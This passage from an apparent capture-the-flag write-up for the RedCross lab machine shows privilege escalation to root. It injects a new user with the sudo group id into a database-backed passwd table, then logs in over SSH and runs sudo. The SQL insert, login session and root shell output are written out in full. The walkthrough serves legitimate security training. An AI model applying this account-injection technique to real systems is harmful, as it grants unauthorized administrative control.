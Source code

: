 The method I originally used, and an unintended path was to go back into
the database the same as before, and create another user, this time with
the `sudoers` group, which is 27:



    dff@redcross:~$ grep sudo /etc/group
    sudo:x:27:



Create the user:



    unix=> insert into passwd_table (username, passwd, gid, homedir) values ('sud0xdfer', '$1$wV7CPbj9$59kAklYgquXe5TuJYIT591', 27, '/home/penelope');
    INSERT 0 1



Now ssh in:



    root@kali# ssh sud0xdfer@10.10.10.113
    sud0xdfer@10.10.10.113's password:
    Linux redcross 4.9.0-6-amd64 #1 SMP Debian 4.9.88-1+deb9u1 (2018-05-07) x86_64

    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.

    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    sud0xdfer@redcross:~$ id
    uid=2023(sud0xdfer) gid=27(sudo) groups=27(sudo)



And `sudo`:



    sud0xdfer@redcross:~$ sudo su

    We trust you have received the usual lecture from the local System
    Administrator. It usually boils down to these three things:

        #1) Respect the privacy of others.
        #2) Think before you type.
        #3) With great power comes great responsibility.

    [sudo] password for sud0xdfer:
    root@redcross:/home/penelope# id
    uid=0(root) gid=0(root) groups=0(root)



Get `root.txt`:



    root@redcross:~# cat root.txt 
    892a1f4d...
